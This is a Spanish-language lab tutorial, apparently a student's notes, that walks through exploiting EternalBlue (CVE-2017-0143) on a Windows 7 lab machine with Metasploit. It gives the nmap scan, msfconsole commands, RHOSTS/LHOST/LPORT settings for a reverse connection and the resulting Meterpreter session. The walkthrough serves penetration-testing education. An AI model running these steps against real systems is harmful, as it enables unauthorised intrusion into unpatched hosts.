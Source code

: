 # Uso Básico de Metasploit – Explotación EternalBlue en Windows

Maquinas que vamos a utilizar Kali Linux y Windows 7 vulnerable

Hemos hecho la búsqueda de equipos en la red y hemos escogido un maquina y un puerto para hacerle un script de vulnerabilidades 

```bash
nmap --script "vuln" -p445 10.0.3.6
```

Siendo este el resultado: 

![image.png](./imagenes/image.png)

Muestro objetivo en este ejercicio es entrar en la maquina objetivo que es un Windows 7.

Copiamos el CVE y lo apuntamos por que lo vamos a necesitar. **CVE-2017-0143**

- Vamos a abrir el Metasploit Framework. Lo podemos hacer de dos maneras **escribiendo el siguiente comando**:
    
    ```bash
    sudo msfdb init && msfconsole 
    ```
    
    <aside>
    💡
    
    **`sudo msfdb init`**:
    
    - Este comando inicializa la base de datos que utiliza Metasploit. `msfdb` gestiona bases de datos, como PostgreSQL, que se emplean para almacenar información sobre los hosts y exploits durante la ejecución de Metasploit.
    - Requiere permisos de superusuario (`sudo`) para configurar correctamente los servicios relacionados.
    
    **`&&`**: 
    
    - Permite encadenar comandos. Su función es sencilla: el segundo comando se ejecutará solo si el primero se completa con éxito (es decir, si no hay errores en el primer comando).
    
    **`msfconsole`**:
    
    - Este comando lanza la consola interactiva de Metasploit. Es el punto principal de interacción con el framework.
    </aside>
    

O desde el **menú de aplicaciones**:

![image.png](/imagenes/image%201.png)

- Ya dentro del del Metasploit vamos a utilizar el comando **search.**
    
    Tenemos dos opciones podemos escribir el CVE o la vulnerabilidad que previamente habremos averiguado haciendo una investigación por internet.
    
    ![image.png](./imagenes/image%202.png)
    
    ![image.png](./imagenes/image%203.png)
    
    A partir de aquí es ir probando, no hay un método infalible, nos fijaremos en el ranquin por ejemplo.
    
- Vamos a **usar el exploit** numero 0:
    
    `use 0`
    
    ![image.png](./imagenes/image%204.png)
    
    Como vemos el prompt a cambiado indicándonos que a cargado el exploit y que estamos dentro de el.
    
    - Le decimos que nos muestre las **opciones de configuración del exploit**:
        
        `show options`
        
        ![image.png](./imagenes/image%205.png)
        
        <aside>
        💡
        
        Tenemos que tener en cuenta que dentro del exploit existen el exploit en si y el Payload (la carga útil).
        
        **Exploit**:
        
        - Un ***exploit*** es un código o técnica que aprovecha una vulnerabilidad o debilidad en un sistema, software o aplicación. El propósito de un exploit puede variar, pero generalmente es para obtener acceso no autorizado, ejecutar comandos o causar un fallo en el sistema.
        
        **Payload**:
        
        - Un ***payload*** es el "código útil" que se ejecuta una vez que el exploit tiene éxito. En otras palabras, es lo que hace el trabajo real después de que se ha explotado la vulnerabilidad.
        - Los payloads pueden realizar varias acciones: abrir una puerta trasera (*backdoor*), obtener información del sistema, agregar un usuario administrativo, o incluso ejecutar malware.
        </aside>
        
        ![image.png](./imagenes/image%206.png)
        
        Si nos fijamos vemos que hay campos que son obligatorios y otros no y campos que ya están rellenados. Pues debemos rellenar al menos los campos obligatorios para que el exploit pueda ser lanzado.
        
        - Empezamos. **RHOSTS que seria la IP de la maquina victima** que previamente hemos conseguido en el reconocimiento de la red.
            
            `set RHOSTS 10.0.3.6`
            
            ![image.png](./imagenes/image%207.png)
            
            Vamos a verificar que se a cargado el parámetro. hacemos un `clear` y un `show options` .
            
            ![image.png](./imagenes/image%208.png)
            
        
        - **RPORT el puerto contra el que lanzaremos el exploit**. En este caso ya viene por defecto ya. Pero si configuramos otro exploit debemos fijarnos si esta puesto y si es el correcto para ese exploit en concreto.
        
        Miraremos también que la configuración del Payload sea la correcta. Por ejemplo **LHOST** seria la IP de nuestra maquina atacante y esto es importante por que es donde yo voy a recibir la conexión reverse, Ya que es donde yo quiero enviarme a mi mismo el control de la maquina victima.
        
        En caso de querer saber nuestra IP podemos usar estos comandos en una terminal.
        
        - `ifconfig`
        - `hostname -I`
        
        **LPORT seria el puerto que esta a la escucha** , por norma general Metasploit ya tiene unos puertos por defecto para esto y nos los escoge por defecto.
        
        **La modificación** de estos datos **seria siempre igual** :
        
        `set RHOSTS 10.0.3.6`
        
        `set LHOST 10.0.3.4`
        
        `set LPORT 4444`
        
        `etc…`
        
        Cuando estemos listos. Para ejecutar el exploit podemos usar el comando `run` o el comando `exploit`
        
        ![image.png](./imagenes/image%209.png)
        
        ![image.png](./imagenes/image%2010.png)
        
        Como vemos nos muestra el **prompt de una consola Meterpreter**. Aquí entra en juego **saber manejar comandos de Linux o Windows**. En este caso como estamos dentro de una maquina Windows debemos saber movernos con los comandos de un terminal CMD.
        
        ![image.png](./imagenes/image%2011.png)
        
        ![image.png](./imagenes/image%2012.png)
        
        Vamos a hacer una prueba. vamos a crear una carpeta dentro del escritorio de Windows.
        
        ![image.png](./imagenes/image%2013.png)
        
        ![image.png](./imagenes/image%2014.png)
        
        ![image.png](./imagenes/image%2015.png)
        
        Esto es básicamente como se explota una vulnerabilidad de forma estándar.